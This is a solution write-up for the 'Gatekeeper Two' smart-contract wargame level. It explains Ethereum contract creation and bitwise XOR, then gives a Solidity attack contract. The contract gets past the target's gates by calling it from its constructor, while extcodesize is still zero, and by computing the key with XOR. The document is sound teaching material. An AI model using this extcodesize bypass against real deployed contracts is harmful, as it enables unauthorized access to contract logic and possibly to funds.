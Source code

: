 # Day 13 - Gate Keeper (2)

## Inner workings of contract creation

The [Ethereum yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf) formally denotes contract creation as:

![contract-creation](./images/contract-creation.png)

**Here’s a simplified flow of how contracts are created and what these variables mean:**

1. First, a transaction to create a contract is sent to the Ethereum network. This transaction contains input variables, notably:

- **Sender (s)**: this is the address of the immediate contract or external wallet that wants to create a new contract

- **Original transactor (o)**: this is the original external wallet (a user) who created the contract. Notice that o != s if the user used a factory contract to create more contracts

- **Available gas (g)**: this is the user specified, total gas allocated for contract creation

- **Gas price (p)**: this is the market rate for a unit of gas, which converts the transaction cost into Ethers

- **Endowment (v)**: this is the value (in Wei) that’s being transferred to seed this new contract. The default value is zero

- **Initialization EVM code (i)**: this is everything inside your new contract’s constructor function and the initialization variables, in bytecode format

2. Second, based on just the transaction’s input data, the new contract’s designated address is (pre)calculated. At this stage, the input state values are modified, but the new contract’s state is still empty.

3. Third, the initialization code kickstarts in the EVM and creates an actual contract.

4. During the process, state variables are changed, data is stored, and gas is consumed and deducted.

5. Once the contract finishes initializing, it stores its own code in association with its (pre)calculated address.

6. Finally, the remaining gas and a success/failure message is asynchronously returned to the sender s.

**Hint:** Notice that up until step 5, no code previously existed at the new contract’s address!

## Bitwise Operations

- &: and(x, y) bitwise and of x and y; where 1010 & 1111 == 1010
- |: or(x, y) bitwise or of x and y; where 1010 | 1111 == 1111
- ^: xor(x, y) bitwise xor of x and y; where 1010 ^ 1111 == 0101
- ~: not(x) bitwise not of x; where ~1010 == 0101

### Notice

- If A xor B = C, then A xor C = B
- In Solidity, exponentiation is handled by \*\*, not ^

## Solution

When first deploy a contract, the `extcodesize` of that address is 0 until the constructor is completed

```js
pragma solidity ^0.6.0;

contract AttackGatekeeperTwo {

    constructor(address _victim) public {
        bytes8 _key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0) - 1);
        bytes memory payload = abi.encodeWithSignature("enter(bytes8)", _key);
        (bool success,) = _victim.call(payload);
        require(success, "failed somewhere...");
    }


    function passGateThree() public view returns(bool) {
        // if a ^ b = c then a ^ c = b;
        // uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) = uint64(0) - 1
        // therefore uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(0) - 1 = uint64(_gateKey)
        uint64 key = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(0) - 1;
        return uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ key == uint64(0) - 1;
    }
}
```
